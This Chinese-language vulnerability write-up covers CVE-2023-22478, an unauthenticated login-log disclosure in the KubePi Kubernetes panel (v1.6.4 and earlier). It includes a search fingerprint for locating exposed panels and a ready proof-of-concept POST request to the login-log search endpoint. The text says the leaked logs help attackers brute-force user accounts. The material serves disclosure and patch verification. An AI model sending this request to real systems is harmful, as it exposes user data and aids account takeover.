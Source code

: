 # KubePi LoginLogsSearch 未授权访问漏洞 CVE-2023-22478

## 漏洞描述

KubePi 是一个现代化的 K8s 面板。KubePi 允许管理员导入多个 Kubernetes 集群，并且通过权限控制，将不同 cluster、namespace 的权限分配给指定用户。它允许开发人员管理 Kubernetes 集群中运行的应用程序并对其进行故障排查，供开发人员更好地处理 Kubernetes 集群中的复杂性。

KubePi LoginLogsSearch 方法下的接口存在未授权访问漏洞，攻击者通过漏洞可以未授权获取用户的登录日志信息，进一步爆破用户。

## 漏洞影响

```
KubePi <= v1.6.4
```

## 网络测绘

```
"kubepi"
```

## 漏洞复现

登录页面

![image-20230504141145409](images/image-20230504141145409.png)

补丁中对路由加了身份验证

![image-20230504141203464](images/image-20230504141203464.png)

对应的接口为

![image-20230504141218134](images/image-20230504141218134.png)

验证POC

```
POST /kubepi/api/v1/systems/login/logs/search?pageNum=1&&pageSize=10 HTTP/1.1
Content-Type: application/json

{}
```

![image-20230504141241265](images/image-20230504141241265.png)



